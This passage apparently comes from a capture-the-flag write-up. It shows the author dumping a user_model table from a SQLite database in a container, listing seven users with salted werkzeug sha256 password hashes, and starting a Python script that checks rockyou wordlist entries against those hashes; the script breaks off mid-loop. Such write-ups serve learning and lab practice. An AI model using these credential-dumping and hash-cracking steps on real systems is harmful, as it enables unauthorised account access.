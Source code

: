 
In the `db` directory we can see a file that looks interesting `database.db`

```bash
    root@98aa0f47eb96:/app/db# ls  
    database.db
    root@98aa0f47eb96:/app/db#
```    

  

We can pass it to our team using `base64`, in the db with `sqlite` we can see a table called `user_model` which contains `users` and `hashes`
```bash
    ❯ sqlite3 database.db
    SQLite version 3.40.1 2022-12-28 14:03:47
    Enter ".help" for usage hints.
    sqlite> .tables
    message_model  smtp_config    user_model   
    sqlite> select * from user_model;
    1|admin@faradaysec.com|administrator|sha256$GqgROghu45Dw4D8Z$5a7eee71208e1e3a9e3cc271ad0fd31fec133375587dc6ac1d29d26494c3a20f  
    2|octo@faradaysec.com|octo|sha256$gqsmQ2210dEMufAk$98423cb07f845f263405de55edb3fa9eb09ada73219380600fc98c54cd700258
    3|pasta@faradaysec.com|pasta|sha256$MsbGKnO1PaFa3jhV$6b166f7f0066a96e7565a81b8e27b979ca3702fdb1a80cef0a1382046ed5e023
    4|root@faradaysec.com|root|sha256$L2eaiLgdT73AvPij$dc98c1e290b1ec3b9b8f417a553f2abd42b94694e2a62037e4f98d622c182337
    5|pepe@gmail.com|pepe|sha256$9NzZrF4OtO9r0nFx$c3aa1b68bea55b4493d2ae96ec596176890c4ccb6dedf744be6f6bdbd652255d
    6|nobody@gmail.com|nobody|sha256$E2bUlSPGhOi2f5Mi$2982efbc094ed13f7169477df7c078b429f60fe2155541665f6f41ef42cd91a1
    7|test@test.test|test|sha256$oHEEZCzsOMOkElnD$5469582922a8c5dfd7105e2b1898de926c56445c06eadafdd19680a6f0f37a6c
    sqlite>
```    

  
##### Password Spraying
To work easily we will save the data in a file called `hashes` which will contain only `users` and `hashes` separated by `:` in the `user:hash` format
```bash
    ❯ cat hashes          
    administrator:sha256$GqgROghu45Dw4D8Z$5a7eee71208e1e3a9e3cc271ad0fd31fec133375587dc6ac1d29d26494c3a20f  
    octo:sha256$gqsmQ2210dEMufAk$98423cb07f845f263405de55edb3fa9eb09ada73219380600fc98c54cd700258
    pasta:sha256$MsbGKnO1PaFa3jhV$6b166f7f0066a96e7565a81b8e27b979ca3702fdb1a80cef0a1382046ed5e023
    root:sha256$L2eaiLgdT73AvPij$dc98c1e290b1ec3b9b8f417a553f2abd42b94694e2a62037e4f98d622c182337
    pepe:sha256$9NzZrF4OtO9r0nFx$c3aa1b68bea55b4493d2ae96ec596176890c4ccb6dedf744be6f6bdbd652255d
    nobody:sha256$E2bUlSPGhOi2f5Mi$2982efbc094ed13f7169477df7c078b429f60fe2155541665f6f41ef42cd91a1
    test:sha256$oHEEZCzsOMOkElnD$5469582922a8c5dfd7105e2b1898de926c56445c06eadafdd19680a6f0f37a6c
 ```   

  

We can't crack it directly with `John`, so we'll convert the words from the `rockyou` wordlist into `hashes`. By comparing each generated hash with the one we have, if we find a match, we get the `password`.
```bash
    #!/usr/bin/python3
    from werkzeug.security import check_password_hash
    from pwn import log
    
    hashes = open("hashes", "r")
    
    for hash in hashes:
        hash = hash.strip()
        user = hash.split(":")[0]
        hash = hash.split(":")[1]
```